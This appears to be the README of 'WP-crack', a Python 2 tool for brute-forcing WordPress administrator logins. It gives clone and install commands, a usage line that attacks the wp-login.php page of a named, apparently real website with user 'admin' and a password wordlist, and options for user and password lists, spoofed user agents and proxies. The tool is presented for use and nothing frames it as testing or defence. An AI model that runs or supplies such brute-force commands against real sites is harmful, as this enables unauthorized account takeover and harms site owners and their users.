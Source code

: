 # WP-crack

# Installation :

pkg install python2

pkg install git

git clone https://github.com/SultanNasution/WP-crack

# Usage :

cd WP-crack

python2 wpbf.py -h http://neokopoi.com/wp-login.php -u admin -P wordlist.txt
 
# OPTIONS :

Syntax: python WP-crack [-u USER|-U FILE] [-p PASS|-P FILE] -h URL [OPT]
    
    -h URL
    -U file contain list user
    -P file contain list password
    -u username
    -p password
    -v verbose mode / show login+pass combination for each attempt
    -f continue after found login/password pair
    -g user-agent - default: "Mozilla/5.0 (Windows NT 6.1; rv:5.0) Gecko/20100101 Firefox/5.0"
    -x use proxy | ex: 127.0.0.1:1234
  
